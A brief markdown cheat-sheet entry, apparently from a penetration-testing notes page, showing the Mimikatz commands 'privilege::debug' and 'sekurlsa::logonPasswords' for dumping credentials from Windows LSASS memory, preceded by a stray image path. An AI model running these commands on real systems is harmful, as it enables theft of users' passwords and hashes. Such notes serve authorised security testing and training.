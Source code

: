 # Mimikatz

## Recovering LSASS
```
Open an Administrative prompt
mimikatz # privilege::debug and make sure we get '20' ok
mimikatz # sekurlsa::logonPasswords
```